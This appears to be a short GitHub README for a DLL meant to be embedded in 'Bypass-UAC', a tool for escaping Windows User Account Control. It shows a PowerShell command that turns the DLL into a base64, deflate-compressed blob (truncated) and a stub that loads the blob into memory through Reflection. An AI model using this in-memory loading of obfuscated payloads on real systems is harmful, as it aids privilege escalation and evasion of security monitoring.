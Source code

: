 # Build

This project was built with Visual Studio 2015.

# Replace Code In Bypass-UAC

After compiling the dll, the "Out-ManagedDll" script can be used to generate output which allows for easy integration into Bypass-UAC. This script is based on [@mattifestation](https://twitter.com/mattifestation)'s post [here](http://www.exploit-monday.com/2012/12/in-memory-dll-loading.html).

```
PS C:\> Out-ManagedDll -FilePath C:\Some\Path\output.dll

$EncodedCompressedFile = @'
7Vt7fFx1lT/3kZnMJJk8GkoLAaZNS9PYhLzatFC0k8ykGTIvZiZ9YCXcmblJhk7mjvdO2oZSTBVRP4ACgqLAQl1YEFhhPwsfkccuAlbWFUHRBS0qiuKyvlBXF1Fkzzn3zp2ZJDzWP/y4n483ud/fOed3fud3fud3fr/7yE34nCtAAgAZz9dfB7gPzGMbvPUxj6fnlPs9cI/riVX3CaEnViWns4a3oGtTujLjTSv5vFb0plSvPpv3ZvNefzThndEyandDg3uNZSMWAAgJEr

[..Snip..]

F1MqifGoJSwdYp8f+GcC7Nvo3jRM4HsOoM4M/KuoXwbAsr66oK3D/czhahfXK/ntQp9SfH08D0uxHocrPkkYU5SqPplzbg7t/2cYOrjcq2vZCN+qUTuqzBfWD7Cvp4rM9tix79sZ9dePdao6/vx5lGyGsn+LWNMoCjo88n4JpoP9nWSzzwmfx9OJ9MMWQPinv5BiV7ZgzlUF+hud0rx1NQC3qM2rZy1p+l7zN/5/838pxj2GthrJZjHmxam7eLN4DHO/qtgujvjDmm7mNDzUMHlsKrc9hJN6q3V/02GZ+819451+6478dfw3H/wI=
'@
$DeflatedStream = New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String($EncodedCompressedFile),[IO.Compression.CompressionMode]::Decompress)
$UncompressedFileBytes = New-Object Byte[](14336)
$DeflatedStream.Read($UncompressedFileBytes, 0, 14336) | Out-Null
[Reflection.Assembly]::Load($UncompressedFileBytes)
```